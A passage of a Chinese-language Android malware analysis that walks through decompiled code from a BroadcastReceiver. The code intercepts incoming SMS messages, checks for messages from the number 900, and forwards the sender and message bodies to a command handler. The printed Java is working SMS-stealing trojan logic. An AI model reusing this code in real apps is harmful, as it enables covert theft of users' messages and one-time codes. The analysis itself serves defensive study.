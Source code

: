 使用Android Studio的查找用法（Find Usage）功能，可以看到String类中的字符串time_perehv（在上面的代码中被替换，以增加可读性）也同样在类Ma中被使用。在这里，由于这个类是BroadcastReceiver，所以用到了getAllSmsMessageBodies和onReceive这两个有趣的函数。

getAllSmsMessageBodies函数需要一个参数，也就是一个SMS消息数组。每条短信的正文都将放在一个字符串中，其结果以单个字符串的形式返回。

```
private static String getAllSmsMessageBodies(SmsMessage[] smsMessageArray) `{`
    StringBuilder stringBuilder = new StringBuilder();
    for (SmsMessage messageBody : smsMessageArray) `{`
        stringBuilder.append(messageBody.getMessageBody());
    `}`
    return stringBuilder.toString();
`}`
```

需要使用BroadcastReceiver类扩展的类来实现onReceive函数。在处理BroadcastReceiver正在侦听的intent时，onReceive函数负责处理其intent。onReceive函数具体如下：

```
public void onReceive(Context context, Intent intent) `{`
    String intentAction;
    context.startService(new Intent(context, MainService.class));
    this.sharedPreferences = context.getSharedPreferences("PREFS_NAME", 0);
    try `{`
        intentAction = intent.getAction();
    `}` catch (Throwable th) `{`
        intentAction = "";
    `}`
    Object[] objArr = (Object[]) intent.getExtras().get("pdus");
    if (isActive || objArr != null) `{`
        SmsMessage[] smsMessageArray = new SmsMessage[objArr.length];

        long j = this.sharedPreferences.getLong("time_perehv", 0);
        if (System.currentTimeMillis() &lt; Long.valueOf(j).longValue()) `{`
            this.w = true;
        `}`
        if (Boolean.valueOf(SmsMessage.createFromPdu((byte[]) objArr[0]).getDisplayOriginatingAddress().equalsIgnoreCase("900")).booleanValue()) `{`
            this.w = true;
        `}`
        if (this.w &amp;&amp; intent != null &amp;&amp; intentAction != null) `{`
            if ("android.provider.telephony.SMS_RECEIVED".compareToIgnoreCase(intentAction) == 0) `{`
                String displayOriginatingAddress;
                for (int i = 0; i &lt; objArr.length; i++) `{`
                    smsMessageArray[i] = SmsMessage.createFromPdu((byte[]) objArr[i]);
                    SmsMessage createFromPdu = SmsMessage.createFromPdu((byte[]) objArr[i]);
                    displayOriginatingAddress = createFromPdu.getDisplayOriginatingAddress();
                    new Handler().postDelayed(new y(this, context, createFromPdu.getDisplayMessageBody(), displayOriginatingAddress), 2000);
                `}`
                String allSmsMessageBodies = getAllSmsMessageBodies(smsMessageArray);
                displayOriginatingAddress = smsMessageArray[0].getDisplayOriginatingAddress();
                List parameters = new ArrayList();
                parameters.add(new BasicNameValuePair("fromPhone", displayOriginatingAddress));
                parameters.add(new BasicNameValuePair("text", allSmsMessageBodies));
                new CommandHandler(context, parameters, "sms").execute(new String[]`{`"url", null)`}`)
                ;
                try `{`
                    q();
                    return;
                `}` catch (Exception e) `{`
                    return;
                `}`
            `}`
```